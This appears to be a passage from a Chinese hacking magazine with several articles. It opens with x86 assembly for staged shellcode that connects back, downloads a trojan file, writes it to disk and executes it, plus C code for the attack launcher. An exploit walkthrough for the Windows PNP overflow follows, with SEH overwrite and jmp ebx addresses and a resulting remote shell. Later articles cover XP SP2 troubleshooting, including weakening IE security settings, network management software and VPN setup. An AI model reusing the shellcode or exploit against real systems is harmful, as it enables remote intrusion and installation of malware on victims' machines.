- 1. 动态查找 GetProcAddress 和 LoadLibraryA 的地址，使代码通用性。  
- 2. 获取并保存 socket、connect、recv 这 3 个函数的地址，顺便保存 kernel32.dll 和 ws2_32.dll 的地址。

```asm
// 下面找 ws2_32 地址
mov dword ptr [ebp], '_2sw'
mov dword ptr [ebp + 4], 0x3233
push ebp
call [ebp + 30h] // LoadLibraryA
mov ebx, eax

// 下面查找 socket
mov dword ptr [ebp], 'kcos'
mov dword ptr [ebp + 4], 0x7465
push ebp
push ebx
call [ebp + 2ch] // GetProcAddress
mov [ebp + 34h], eax

// 下面查找 connect
mov dword ptr [ebp], 'nnoc'
mov dword ptr [ebp + 4], 0x746365
```

```asm
// 重新规划内存，用于接收 SC2
sub esp, 800h
mov ebx, esp
add ebx, 4

// 创建 socket
push 6 // IPPROTO_TCP
push 1 // SOCK_STREAM
push 2 // AF_INET
call [ebp + 34h] // socket()
mov [ebp + 40h], eax

// connect TCP 80
mov word ptr [ebp + 50h], 2
mov word ptr [ebp + 52h], 0x5000 // htons(80)
mov dword ptr [ebp + 54h], 0x0100007f
...
call [ebp + 38h] // connect()

// 接收 sc2
push 0
push 750h
push ebx
push [ebp + 40h]
call [ebp + 3ch] // recv()
cmp eax, -1
jz over
jmp ebx // 跳到 sc2 去执行
```

好了，接着是 SC2 的编写了，当然 SC2 就不会有那么紧张的字节数限制啦。SC2 的功能也很明确，就是接收木马文件并 c.exe，然后执行该文件，最后退出服务进程。具体而言，汇编代码需要以下几件事情。

1）直接利用 SC1 中的 GetProcAddress、LoadLibraryA 以及 ws2_32、Kernel32 的地址，获取 send、_open、_write、_close、WinExec、ExitProcess 这 6 个函数的地址。这部分代码很简单，大家可以直接参考就行了。

2）木马文件的传送，这里需要注意一下。传送文件的套接字我就直接复用了 SC1 中接收 SC2 时的连接对应的 Socket。由于 SC1 和 SC2 是连续执行，因此不用再花代码去查找该 Socket 了，接收文件代码如下：

```c
// 向远端发送已开始执行sc2的信号“ok!”
// 后面的通信也利用已经建立起连接的套接字标识[ebp + 40h]
mov dword ptr[ebp + 64h], '!!ko'
mov byte ptr[ebp + 67h], 0
push 0
push 4
lea eax, [ebp + 64h]
push eax
push [ebp + 40h] //socket标识
call [ebp + 20h] //send()

// 创建文件 \cj.exe (_open)
mov dword ptr[ebp + 68h], 0x2e6a635c
mov dword ptr[ebp + 6ch], 'exe!'
mov byte ptr[ebp + 6fh], 0
push 0x0180
push 0x8301
lea eax, [ebp + 68h]
push eax
call [ebp + 44h] // _open

// 保存文件句柄
mov dword ptr[ebp + 16h], eax
mov dword ptr[ebp + 70h], 0x00027031 // 保存输入的文件大小
mov dword ptr[ebp + 74h], 0 // 保存已经接收的文件大小

j1:
/*
接收文件，每次512字节，接收后存放在ebx + 400h开始的地方
*/
push 0
push 512
lea eax, [ebx + 400h]
push eax
push [ebp + 40h]
call [ebp + 3ch] //recv()
cmp eax, 0
jle end
add dword ptr [ebp + 74h], eax
push eax
lea eax, [ebx + 400h]
push eax
push [ebp + 16h]
call [ebp + 48h] //_write()

// 发送确认的'y'回去
mov [ebx+604h], 'yr'
lea eax, [ebx + 604h]
push 0
push 1
push eax
push [ebp + 40h]
call [ebp + 20h] //send()

jle end      // send flag 失败退出
// 比较文件大小，看是否传输完毕
mov eax, dword ptr[ebp + 74h]
cmp eax, dword ptr[ebp + 70h]
jl j1

// 传递完毕就关闭文件句柄
push [ebp + 16h]
call [ebp + 4ch] //_close
```

3）文件接收完毕后，执行该文件并退出服务进程。

```c
// WinExec 执行 \cj.exe
push 0
lea eax, [ebp + 68h]
push eax
call [ebp + 24h] //WinExec

// 退出 ExitProcess
end:
push 0
call [ebp + 12h]
```

SC1 和 SC2 的汇编代码编写就到这里，详细内容请参考光盘中的代码，下面的任务就是构造攻击程序了。

#### 攻击程序的编写及调试

- 1. ShellCode 的提取。ShellCode 的提取方法以前是讲过的，这里简单说一下：单步调试汇编源代码，使 EIP 指向第一条汇编指令，在 memory 窗口中输入“EIP”回车，拷贝这片内存数据，直到最后一条汇编指令对应的机器码；将拷贝的机器码粘贴到二进制文本编辑器（如 UltraEdit32）中，保存为 Input.txt，然后专门写个程序来添加引号即可。
- 2. 提取了 SC1 和 SC2 后，就是攻击代码的构造。由于既要发送 SC1，又要监听本机 TCP 80 端口，因此采用两个线程分别完成监听（并传送文件）与攻击（发送 SC1）的功能，需要做线程同步和超时控制。

图1

部分代码如下。

```c
// 分别开启两线程
hThread[0] = CreateThread(NULL, 0,
 (LPTHREAD_START_ROUTINE)ListenThreadProc,
 NULL, NULL, NULL);
Sleep(1000);

hThread[1] = CreateThread(NULL, 0,
 (LPTHREAD_START_ROUTINE)SendShellThreadProc,
 NULL, NULL, NULL);
```

### 2）线程同步。

```c
// 创建事件对象
hEvent = CreateEvent(NULL, FALSE, FALSE, "8888888");
// 其实攻击线程很快就返回了
WaitForSingleObject(hThread[1], INFINITE);
CloseHandle(hThread[1]);
// 如果20秒内目标主机反连过来，则一直等到木马传送完毕
if (WaitForSingleObject(hEvent, 20000) == WAIT_OBJECT_0)
    WaitForSingleObject(hThread[0], INFINITE);
else // 否则结束监听线程
{
    TerminateThread(hThread[0], 0);
    closesocket(ListenSock);
    closesocket(ClientSock);
}
```

Listen 线程中：

```c
ClientSock = accept(ListenSock, (sockaddr *)&ClientAddr, &nAddrSize);
// 以后都通过ClientSock与目标机器进行通信了
// 这里事件为信号类，给主线程发送消息，然后关闭事件句柄
SetEvent(hEvent);
CloseHandle(hEvent);
```

### 3）TCP 通信的超时控制。

这里用到了 fd_set 和 timeval 两个数据结构。

```c
timeval tv;
fd_set fs;
tv.tv_sec = 20;
tv.tv_usec = 0;
FD_ZERO(&fs);
FD_SET(ClientSock, &fs);
if(select(0, &fs, NULL, NULL, &tv) < 0)
{
    printf("5%d\n", GetLastError());
    return -1;
}
```

### 3. Shellcode 的编、解码。

至于编码，一般是要考虑编码后不带有 0 字符的。在 SC1 中，我用 0x99 编码，而在发送的时候先在 SC1 前面加上解码代码。编码的工作不针对 SC2，因为 recv 函数是可以传送字符串的，而 SC2 是直接存放在了 SC1 中 recv 函数指定的缓冲区里，然后跳转过去执行，实现“无缝连接”。

4. 再多说两句，关于攻击代码的调试。我们编写攻击代码，不仅要对 ShellCode 进行单元测试，更重要的是通过 ShellCode 形成攻击程序的时候要进行整体测试。就这样一个不算复杂的程序，在后来调试的时候遇到了一些问题，但是都一一解决了。这里向大家推荐一组好工具——VMWare+SoftICE，这一对组合对我们平时调试漏洞是很有用的，别的我就不多讲了，等你边播放歌曲边在你机器上使用 SoftICE 的时候，就体会到它好像具有 Ollydbg 的 ring3 感觉了，如图2所示。

图2

好了，整个攻击程序就构造完了。在 Windows 2000 SP4 + VC6 下编译、测试通过，请大家参考。

#### 小结

本文中，我们通过实际例子讨论了分段传送的 ShellCode 的实现。过程其实并不复杂，关键在于思路的清晰与规范，希望对大家学习溢出技术有些帮助。还是老规矩——欢迎大家交流。

适合读者：溢出爱好者，系统安全爱好者  
前置知识：WIN32 溢出基础

### 菜鸟版 Exploit 编写指南之十八：PNP 溢出漏洞分析 + 利用

文／图 四川大学信息安全研究所 曾军 / danggua127

一个月前和朋友聊天，谈到现在网络上蠕虫、病毒是越来越猖狂，前年的“冲击波”，去年的“震荡波”，今年还不知道又出什么呢？话音刚落，一个被命名为 Zotob 的蠕虫病毒已经在 2005 年 8 月 15 日开始传播。后来的几天，该蠕虫的变种相继产生，对网络造成了一定的影响。Zotob 蠕虫是基于 Windows 2000 以上版本的即插即用（PNP）服务中产生的堆栈溢出漏洞，远程攻击者通过 TCP 445 或 139 端口向该服务提交畸形请求，溢出后可能获取系统权限。大家的防范意识都比较强了，很多用户都及时打了补丁，而一般个人防火墙的默认规则也封堵了 TCP 139 或 445 端口，该漏洞的破坏力已经明显不如以前的“冲击波”了。言归正传，我们还是来分析这个漏洞吧。

#### 漏洞起因及影响范围

漏洞的起因前面已经简单提到了，我们可以参见漏洞公告，如图1所示。

图1

- 1. 漏洞起因：Windows 2000 版本以上的 PNP 服务存在远程堆栈溢出漏洞，“远程”是因为该服务可以通过 RPC 接口来远程调用。
- 2. 影响范围：漏洞只对 Windows 2000 有真正威胁，而要攻击 XP 和 Windows 2003 均有一定的限制。对于这个 RPC 接口，如果在 Windows 2000 上可以远程匿名进行调用；在 Windows XP SP0、SP1 上，需要以一个有效账号登录后才可以调用；在 Windows XP SP2 和 Windows 2003 上，只有管理员组用户才能远程调用，其他账号只能本地调用。

#### 宏定位分析

这部分工作我认为很重要，因此在本文中讲清楚一些。所谓“宏定位”，就是指我们应该对我们实现的目标进行预先的分析，调试漏洞是这样，做其他工作也是如此，这一步做好了我们在后面可以少走弯路。

- 1. 对具有溢出漏洞的服务进程归类  
这里我们将服务进程分为两类。一类是服务自身绑定了端口，可以是 TCP 或 UDP 端口；另一类当然是服务进程自身没有绑定任何端口。对于前一类服务，远程机器直接通过传输层协议（TCP 或 UDP 协议）+应用层协议（如 RPC 协议、HTTP 协议）来访问服务。IIS、FTP、HTTP 都属于这一类服务。如果这些服务存在漏洞，我们可以通过重复绑定端口、复用 Socket 来绕过防火墙的检测。对于后一类服务，远程机器通过传输层协议+命名管道（IPCs）+应用层协议来访问服务，这也是为什么我们访问 LSASS、WorkStation 等服务的时候要先与远程机器建立 IPC$ 空连接的原因。这类漏洞的利用要比躲避防火墙的检测实现起来要困难一些，这个我在后面会提到。  
感染利用 PNP 溢出漏洞的蠕虫后，我们的机器会弹出系统显示“系统处理程序 c:\winnt\system32\services 意外终止”关闭提示框，根据以往的经验，我们可以看出该漏洞是存在于 Services 进程中，这一点和 WorkStation 服务一样，因此归为后一类。

- 2. 服务进程接收缓冲区长度  
这个问题集中体现在用于接收请求的函数（如 recv、recvfrom 等）第 3 个参数 len 上。如果指定的 len 很小，我们是无法一次性传送功能复杂的很长的 ShellCode 的，这时就必须采用其他传送的方式，例如把 ShellCode 分段传送，在《编写分段传送的 ShellCode》一文中有介绍。接收缓冲区长度问题一般在服务进程自身绑定了端口的溢出漏洞中出现，因此 PNP 服务中可以暂不考虑。

- 3. 异常发生的位置  
这个问题是指我们向服务程序提交超长的请求后，会覆盖问题函数的返回地址 EIP 等指针。当函数返回的时候，跳转到我们覆盖数据指定的地址时可能发生异常；另外一种情况就是在该函数返回之前，由于我们覆盖了局部变量中其他指针，导致对其进行引用的时候发生异常。简而言之就是 ret 前与 ret 后发生异常的区别。对于 ret 后的异常，我们可能需要通过 KiUserExceptionDispatcher 和监视点的方法来联合定位溢出点；并且漏洞利用的方式有两种：改写 EIP 为 jmp esp 地址或改写 SEH 指针。而对于 ret 前的异常，我们一般通过 KiUserExceptionDispatcher 来定位溢出点就够了，利用的时候也只能改写 SEH 指针。我们预先并不知道 PNP 溢出漏洞属于哪一类，不过等下面进一步调试后就明朗了。

- 4. 判别带 ret 函数的调用约定  
这个问题是最容易被忽略的。如果我们能够采用 jmp esp 的利用方式的话，可能很多人会在覆盖 jmp esp 位置的紧接 4 个字节开始的地方连接 ShellCode，问题就出在这里。  
不管是 Windows 系统进程、第 3 方软件，还是我们自己用 VC6、VC7 编写的程序，只要和 C/C++ 相关的函数，一般来说可以分为 __cdecl 和 __stdcall 两种调用约定。采用 __cdecl 的函数在返回时需要调用者恢复实参占用的堆栈，也就是函数只执行返回指令 ret，我们把 ShellCode 接到保存的 EIP 后面是没问题的；而采用 __stdcall 在函数返回时执行指令 ret n，自己恢复实参占用的堆栈，我们如果把 ShellCode 接到保存的 EIP 后面的话，开始几个字节的代码就执行不到了。这也就是为什么我们在构造一些系统进程溢出漏洞（如 RPC、WorkStation、LSA 等）攻击代码的时候，jmp esp 地址后要有若干保留字节的原因。好了，带着剩下的问题，我们继续。

#### PNP 溢出漏洞的分析 + 利用

现在的牛人们编写漏洞代码的速度是越来越快了，蠕虫出来两三天，攻击代码就已经公布出来了。既然有现成的，我们就直接拿过来用了。于是，我把某站上公布的代码拿来整理后编译、执行，结果目标机器还是发生了异常，如图2所示。

幸好是用 VMWare（+Windows 2000 SP4）作测试，否则用我自己的机器岂不麻烦？很显然，攻击代码存在问题，再看看网上代码中的地址填充。

```c
EvilRPC.SDA[76] = 0x3e;
EvilRPC.SDA[77] = 0x1e;
EvilRPC.SDA[78] = 0x02;
EvilRPC.SDA[79] = 0x75;
```

这个地址不是我们熟悉的地址，需要进一步分析。这样的漏洞分析，VMWare 和 SoftICE 的组合是再合适不过了（顺便向大家推荐）。启动 VMWare 中的 SoftICE，设置断点：`bpx ntdll!KiUserExceptionDispatcher`。

发生任何异常，SoftICE 都会先在这个函数第一条指令停顿下来。关于 KiUserExceptionDispatcher 函数及其参数的详细介绍，相关文章中有详细介绍。这里我只结合本漏洞谈谈。

OK，重新攻击 VMWare 系统，果然弹出了 SoftICE，并停留在函数 KiUserExceptionDispatcher 入口处，如图3所示。

输入命令 `addr`，可以看到的确是 Services 进程空间发生了异常。输入命令 `d (*(esp + 4) + b4)`，得到异常发生时：`EBP = 0x005bf874`，`EIP = 0x76750199`，如图4所示。

在输入命令 `d (*(esp + 4) + c4)` 时，得到异常发生时栈信息。

得出 `ESP = 0x005bf864`，如图5所示。

调试到这里，由 `EIP = 0x76750199`，我们应该可以得出一个结论：该漏洞是典型的 `ret` 前异常。换句话说，就是在问题函数返回之前就已经发生了异常。按照前面的宏定位分析，网上公布的代码一定利用了改写 SEH 指针的方式。我们来证明一下。

输入命令 `d fs:0`，我们看到当前线程 SEH 结构位于 `0x005bf8f8` 处，如图6所示。

再输入命令 `d ss:005bf8f8`，看到了当前线程 SEH 结构的 8 字节，如图7所示。

呵呵，当前线程异常处理函数指针是 `0x75021e3e`，也就是前面看到的填充地址，证明了我前面的假设。我们将该地址改为 Windows 2000 下通用的 `jmp ebx` 地址 `0x77fa1571`，前面 4 个字节填写为 `eb 06 eb 04`，然后将 VMWare 系统重启，再次测试，如图8所示。

这下目标机器没有重启。VMWare 系统 IP 为 `192.168.1.8`，在本机输入 `telnet 192.168.1.8 8721`，立即得到了 Shell，修改成功了！如图9所示。

#### 小结

本文中，我简单地和大家一起对 PNP 服务溢出漏洞进行了分析。分析的过程不复杂，只是我想通过这样的分析调试，和大家一起分享我调试这些漏洞的一些经验。本文中涉及的宏定位分析，在以后大家分析其他复杂漏洞的时候同样适用。我修改后的代码细节可以参见光盘中的源代码，在 Windows 2000 + VC6 下编译、测试通过。

### 解决 Windows XP SP2 常见系统故障

适合读者：网管、普通网民  
前置知识：Windows 基本操作

文/图 阿娇

> 有些朋友在安装了 Windows SP2 之后，发现上网时网页图片无法正常显示、网站验证码看不见、BT 下载变慢、即时通信软件不兼容等故障接二连三地暴露出来……今天就让我们走近 SP2，分析一些 SP2 容易引起的常见系统故障，帮助大家排忧解难。

#### 绊脚石之一：McAfee VirusScan 无法在线升级

**故障现象：** 安装 SP2 后，McAfee VirusScan 无法在线升级。

**原因分析：** SP2 对组件权限管理更严格，导致相关服务权限不足。

**应对策略：** 在“组件服务”中进入 `我的电脑 -> DCOM 配置 -> FrameworkService`，在“安全”里自定义启动与激活权限，为登录账户与 `System` 账户添加“本地启动、本地激活”等权限。

#### 绊脚石之二：HTML 文件中的图片无法正常显示

**故障现象：** 在 IE 浏览包含图片的页面时，出现 ActiveX 错误，图片无法显示。

**原因分析：** SP2 默认禁用了 ActiveX、Java 等控件，导致含相关控件页面无法正常浏览。

包含 ActiveX、Java 等控件的网页无法正常浏览，图片无法正常显示。

**应对策略：** 打开记事本并写入注册表内容，保存为 `ShowPicture.reg` 后导入即可。

```text
Windows Registry Editor Version 5.00

[HKEY_LOCAL_MACHINE\SOFTWARE\Microsoft\Internet Explorer\Main\FeatureControl\FEATURE_LOCALMACHINE_LOCKDOWN]
"iexplore.exe"=dword:00000000
"explorer.exe"=dword:00000000
```

> 上述两个键值为“1”时为禁用，为“0”时为解除 ActiveX、Java 等控件限制。

#### 绊脚石之三：安全等级被“锁定”

**故障现象：** 安装 SP2 后，Internet 区域安全级别被锁定到中级，调整时会弹出错误警告框，无法按需修改。

#### 原因分析

这个问题主要是 SP2 出于安全的考虑，锁定了 Internet 的安全等级，默认情况下不允许用户来调整。

#### 应对策略

点击“开始->运行”，在弹出的运行对话框中输入“REGEDIT”，回车后打开注册表编辑器，依次展开如下分支：

```text
[HKEY_CURRENT_USER\Software\Microsoft\Windows\CurrentVersion\InternetSettings\Zones\3]
```

在右侧的窗口中找到名为“MinLevel”的 DWORD 值，双击，在弹出的编辑对话框中将其数值数据设为“10000”（十六进制），点“确定”按钮并关闭注册表编辑器，按 F5 刷新一下，现在再试试，看安全等级是不是可以自由调整了？

#### 绊脚石之四：程序不兼容

**故障现象** 安装 SP2 后，往往会与 Office XP 等软件产生兼容性问题，程序莫名其妙地出错。

**原因分析** 造成该问题的元凶主要是 DEP（Data Execution Prevention，数据执行保护）技术。该技术用于防止缓冲区溢出类攻击，会将部分内存位置标记为“不可执行”，但也可能导致部分程序无法正常运行。

**应对策略** 可通过手动配置让特定程序不受 DEP 检测：右键“我的电脑”->“属性”->“高级”->“性能设置”->“数据执行保护”，选择“为除下列选定程序之外的所有程序和服务启用 DEP”，再通过“添加”按钮把需要的程序加入例外列表。

与 SP2 产生兼容性问题的程序还有很多，限于篇幅不一一列举，可参考技术文档：`http://support.microsoft.com/?id=884130`。

#### 绊脚石之五：P2P 软件下载速度减慢

**故障现象** 安装 SP2 之后，原本较快的 BT/P2P 下载速度明显变慢，甚至重装软件也难以解决。

**原因分析** 为防止冲击波、震荡波等蠕虫病毒的多线程攻击，SP2 内建了 OOB Messages 动态链接库，实时监控进程并发线程数。超过其认定的安全线程数（10 个）时，会开始限制线程。

**应对策略** 需修改 `E:\WINDOWS\ServicePackFiles\i386` 目录下的 `TCPIP.SYS`，也可直接使用补丁工具：`http://www.lvllord.de/4226fix/evid4226patch20b.exe`，运行后按提示输入 `Y`，重启计算机即可。

#### 绊脚石之六：本地网页中的 FLASH 文件无法正常显示

**故障现象** 下载到本地的包含 FLASH 动画的 IE 文件，安装 SP2 之后无法显示 FLASH 动画。

**原因分析** SP2 默认安全设置限制了本地活动内容的直接运行，以防恶意代码借助 FLASH 等内容发起攻击。

**应对策略** 启动 IE 浏览器，进入“工具->Internet 选项->高级”，在“设置”中勾选“允许活动内容在我的计算机上的文件中运行”和“允许来自 CD 的活动内容在我的计算机上运行”，确定即可。

#### 绊脚石之七：无法共享文件和打印机

**故障现象** 局域网中原本可正常访问的共享文件/共享打印机，在安装 SP2 后消失或无法访问。

**原因分析** SP2 新增并默认启用 Windows 防火墙，出于安全考虑关闭了“文件和打印机共享”能力，导致共享资源不可见。

**应对策略** 依次进入“开始->设置->控制面板->安全中心->Windows 防火墙”，打开“例外”选项卡，在“程序和服务”列表中勾选“文件和打印机共享”，确认后重启计算机。

#### 绊脚石之八：网络通信软件无法使用

**故障现象：** 安装 SP2 之后，许多网络通信软件（如 QQ、MSN、Windows Messenger、Windows NetMeeting 等）无法正常使用，常出现安全警报或远程桌面共享不可用等问题。

**原因分析：** SP2 防火墙默认限制未经允许的网络入站连接，导致相关通信软件无法正常工作。

**应对策略：** 对于 QQ、MSN 等即时通信软件，在 Windows 安全警报中点击“解除阻止”即可。

对于 Windows Messenger、Windows NetMeeting，不仅要“解除阻止”，还要将主程序加入“例外”。路径为：开始 → 设置 → 控制面板 → 安全中心 → Windows 防火墙 → 例外 → 添加程序，选择“Windows Messenger”（见图6）后确定，即可恢复正常。

继续点击“浏览”，将 `X:\Program Files\NetMeeting\Conf.exe` 与 `X:\Windows\System32\mnmsrvc.exe` 添加到“例外”中。确认后，Windows NetMeeting 远程桌面共享即可恢复。

#### 绊脚石之九：OE 邮件中的图片无法正常显示

**故障现象：** 在 Outlook Express 接收邮件时，邮件中的图片无法正常显示，常需手动点击“单击此处下载图片”。

**原因分析：** SP2 为防止恶意收集信息或借附件攻击，默认禁用了 OE 接收邮件时自动显示图片/外部内容。

**应对策略：** 在 OE 中进入“工具→选项→安全”，取消“阻止 HTML 电子邮件中的图像和其他外部内容”选项（如图7）。

#### 绊脚石之十：验证码图片无法正常显示

**故障现象：** 访问论坛等需要验证码的网站时，验证码图片不显示，导致无法登录。

**原因分析：** SP2 默认不支持 `*.xbm` 格式图片，而部分验证码采用该格式。

**应对策略：** 运行 `REGEDIT`，定位到 `HKEY_LOCAL_MACHINE\SOFTWARE\Microsoft\Internet Explorer\Security`，找到（或新建）`BlockXBM` 的 DWORD 值并设为 `0`，确定后刷新页面测试。

```text
HKEY_LOCAL_MACHINE\SOFTWARE\Microsoft\Internet Explorer\Security
BlockXBM=0 (DWORD)
```

- 适合读者：网络管理员
- 前置知识：无

### 量身定制网管软件

文/图 风之扬

网络规模越来越大的时候，许多单位不得不付出极大的人力、物力对网络进行管理。如果采用传统的人工分散管理方式，发现一个问题解决一个问题，不仅成本高，而且处理故障的周期特别长。于是，网管软件应运而生；随着中小型企业网络的规模不断扩大，这必将给网管软件带来巨大需求。

#### 网管软件基本功能

网管软件必须能够实实在在地给我们带来好处。对于企业网络管理来说，其作用体现在以下几个方面：

- 1. 准确地反应网络故障
- 2. 整合系统管理
- 3. 支持 Web 网管
- 4. 面向业务的网管

平时，当我们感觉网络速度实在太慢时才会去和网管联系，而且处理十分被动。因此，网管软件必须能迅速反映问题，还要有一定推理故障根源的能力。此外，还将专家系统、人工智能系统、神经元技术和网络故障和性能管理相结合，使网管系统逐步具备分析决策能力。

随着计算机网络的发展，计算机系统管理和网络管理之间的关系已经越来越密切了，但系统中每个局部的总和并不等于整体，网络管理员最头疼的问题往往是各局部都没有大问题，而业务人员却反映系统有问题或性能低。站在最终用户的角度，科学地从网络和应用层衡量、监测系统的总体性能和故障，是网络管理员迫切需要的。

当你在另一个地方时，要想完全了解企业网络的状况，怎么办？基于 Web 的网管模式 WBM（Web-Based Management）可以让网管人员随时了解企业网络状况。其实现包括两种方式，即代理方式和嵌入方式。第一种可以在任意网内计算机上运行 Web 服务器，并轮流与端点设备通信；浏览器用户与代理通信以及代理端点设备之间通信。第二种是嵌入式，它将 Web 功能嵌入到网络设备中，每个设备有自己的 Web 地址，管理员可通过浏览器访问并管理该设备。另外，以 Web Server 为中心，降低了维护费用，对系统的修改只需在 Web Server 上进行，无须在客户端做任何修改，如图1所示。

新一代的网络管理系统已开始从面向网络设备的管理向面向网络业务的管理过渡。这种网管思想把网络服务、业务作为网管对象，通过实时监测与网络业务相关的设备、应用，通过模拟客户实时测量网络业务的服务质量，通过收集网络业务的业务资料，实现全方位、多视角监测网络业务运行情况的目的，从而实现网络业务的故障管理、性能管理和配置管理。

目前，从性能和市场占有率上看，Advent 公司的 Advent 系列产品，HP 的 OpenView，IBM 的 NetView，CA 的 Unicenter TNG，Micromuse 公司的 NetCool，Concord 公司的 eHealth Console 产品，NetScout 公司的 NetScout 等占据了绝大部分市场，Cisco 和 3Com 等公司也都有竞争力很强的网管软件。另外，中国本土的一些厂商也开发了网管软件，如华为的 manager 系列、神州数码网络的 LinkManager 和北大青鸟的青鸟网顿（NetSureXpert）、游龙科技的 SiteView、大用软件的 JehiVision 等，而且有后来居上的趋势；本文图片主要来自 `http://www.adventnet.com.cn` 的 Web NMS 试用产品。

#### 网管系统技术

从 OSI 的标准看，网管主要包括配置管理、故障管理、性能管理、安全管理和计费管理 5 大部分。其实，这主要是针对电信运营网络而言的。对于中小型企业网络来说，谈论比较多的是配置、故障和性能管理 3 个方面。目前，市场上各种网管产品主要是针对网络故障管理和网络性能管理这两个方面的。网络故障管理主要侧重于实时监控，而网络性能管理更偏重历史分析，协助管理员监视网络、采集数据，形成统计报表。

- 1. 配置管理

目前，对网络设备的配置基本上是通过登录设备，利用设备提供的配置命令完成的，这也是唯一能够完成所有配置任务的方式。设备的制造商会针对不同型号的设备推出一些辅助的配置管理软件工具，简化设备的配置过程。但是往往只能实现部分配置功能，而且只针对特定型号的设备，缺乏通用性，没有太大的意义。由于设备的配置参数、方式没有通用的标准和协议，所以没有通用的设备配置管理软件。各种通用网管软件宣称配置管理，往往只是为了迎合用户，功能非常有限。选购时，我们必须清楚地认识到这个问题。

配置管理的常见功能包括收集和传播有关资源当前状态的数据、本地发生的改变或由于没有预计到的事件而引起的变化；通过标准化的协议通知给管理工具；设置并修改与网络组件和 OSI 层软件有关的参数；启动和关闭被管理对象；改变配置；将名字与一个或一组对象联系起来，如图2所示。

- 2. 性能管理

网络性能管理可以保存大量采样数据，同时定期对原始数据进行汇总，生成汇总化报表，以减少存储资源占用，提高数据质量。性能报表报告是性能管理的核心。性能报表直观易懂性是基本要求，报表内容是否有效，是否能够对系统性能调整起到指导作用，则是性能管理系统是否有用的关键。当然，网络性能超出门限值产生性能故障报警，并通过网络故障管理统一处理也是性能管理的基本要求。一些高端的网络性能管理软件还具有自动的分析预测功能，可以自行学习和分析网络性能的历史和现状，预测将来可能出现的性能问题，如图3所示。

- 3. 故障管理

故障管理的核心是对采集到的故障信息的处理。一种方式是网管软件理解网络拓扑结构和故障来源、严重性，自动、及时、直观地在网络拓扑界面表示该故障，这对实时监视和解决问题非常有效。界面的直观、易用性是考察此类软件的侧重点。另一种故障处理方式是通过后台处理引擎对故障报警事件进行过滤、翻译、分类、关联、报警，同时通过列表的形式显示，以便从海量报警事件中寻找真正的故障信息，及时自动通知管理人员，如图4所示。

- 4. 计费管理和安全管理

计费管理功能为网络管理者提供了分配网络资源使用费用的依据，主要包括使用事件报告以及数据操作软件通知用户有关费用，允许对被管理资源的使用设置计费限制。当使用多种资源实现所需通信时，可以将各种费用综合在一起。安全管理设施则使得网络系统管理者能够为通信资源提供访问保护。

#### 网管系统的实现

网络设备是通过不同的管理信息库（MIB）来表达监控参数的，一般网络设备除了支持标准的 MIB II、RMON 外，还会支持一组与设备型号相关的专用 MIB 以扩展管理功能。因此，网管软件支持了哪些 MIB，如何支持新的 MIB 定义是考察网管软件的另一关键。不管是网络故障管理还是网络性能管理，也不管是哪家厂商的产品，各种网络管理系统都是按照相似的模式运作的。对于计算机网络管理，所有产品都无一例外地采用了简单网络管理协议（SNMP）在网管工作站和网络设备之间架起沟通的桥梁，如图5所示。

因此，网管系统不单单是网管软件的事，还与被管理的网络设备密切相关。网络设备必须能够收集、保存设备及其连接网络线路的相关故障和性能参数，网管工作站上的网管软件负责定期、自动采集这些参数，并正确处理它们使之对用户有用。然后定期主动轮询，获取数据；也可以被动接收网络设备发出的 SNMP Trap、syslog 以获取报警数据。从技术角度而言，网管软件数据采集模块的设计优劣是影响其性能、可扩展性的重要因素，也是考察网管软件的重要指标。

通过本文的分析，相信大家对网络管理有了一个全面的了解。实际使用中，我们要本着“量体裁衣”的原则，尽量符合实际，从而打造一个安全的网络。

**刘涛** 2004 年第 11 期的黑防曾经发表过一篇文章《架设 Windows 到 Linux 的 PPTP VPN》，后来有朋友在论坛上问，怎样使得两个用 VPN 连接起来的网络实现网上邻居中的互访，也就是要使大家都能够在网上邻居中看到对方，并通过网上邻居进行资源访问。由于一线的电脑操作人员通常都是通过网上邻居来访问共享文件的，所以这个问题很有实际意义，这也是大家在实际工作中遇到的一个常见问题，今天特别对此策划本文，在阅读前建议大家先看看 2004 年 11 期的黑防。

- 适合读者：网络管理员
- 前置知识：VPN 基本组建

### 在 VPN 网络中实现互访网上邻居

文/图 朱宏志

应黑防论坛上热心读者的点名要求，特写此文，希望能对大家有所帮助。

本文的网络环境如图1所示，总部网络为 192.168.0.0/24，是一个 Windows 2000 域网络：fzz.com。而分公司网络为 192.168.254.0/24，是一个工作组网络：workgroup。它们的网关都是 ISA Server 2004 防火墙，同时也是 VPN 服务器，ISA Server 是利用系统自身的 VPN 功能。

#### 连接总部网络与分公司网络

我们首先要做的事情是用 VPN 的方式把这两个网络连接起来，以实现它们之间的互访，这里将以 PPTP VPN 的方式将两个网络连接起来。具体步骤如下。

- 1. 在总部 ISA Server 2004 上的操作  
  1）创建远程 VPN 站点网络

在 ISA 管理窗口中选中“虚拟专用网络”，然后在中间窗格中选择“远程站点”标签，并在右边的“任务”栏下点击“添加远程站点网络”，出现网络创建向导，如图2所示。在“网络名”栏给远程网络取个名字，由于这里的远程网络实际上就是分公司网络，所以就叫 branch 吧。

点击下一步，在“VPN 协议”窗口选择最后一项 PPTP，然后进入“远程站点网关”设置窗口，在里面填入分公司 VPN 服务器的域名或 IP 地址，接着就是“远程身份验证”窗口，如图3所示。

这里是设置初始化接入分公司 VPN 服务器时应该提供的账户信息，勾选上“本地站点可以使用这些凭据来初始化到远程站点的连接”，然后在用户名栏填入分公司 VPN 服务器上创建的允许拨入的用户名，注意这个用户名是不能随意取的，它必须与在分公司 VPN 服务器上创建的对应的远程站点网络同名（后面将讲到），这里是 main。在域栏填入分公司 VPN 服务器的 NETBIOS 名，密码当然填用户对应的密码。完成后进入“本地身份验证”窗口，这个窗口并没有具体设置，只是提示如果允许远程网络初始化 VPN 连接时需要做的事情，也就是要创建一个与远程站点同名的用户（这里是 branch），并给予其拨入的权限。这里的“本地身份验证”是与前一个“远程身份验证”窗口相对应的，“远程身份验证”是配置以使能主动连接到远程，从方向上来看是 Outbound，“本地身份验证”是配置以允许远程连过来，是 Inbound。最后一步是配置远程站点网络的地址范围，根据图1，这里是 `192.168.254.0/24`（如图4所示）。

#### 2）创建允许接入的用户

根据上面“本地身份验证”窗口的要求，我们在 ISA Server 服务器的计算机管理窗口中创建一个名为 `branch` 的用户（注意这个用户名必须与上面创建的远程站点网络同名），并在其属性中允许远程接入，如图5所示。

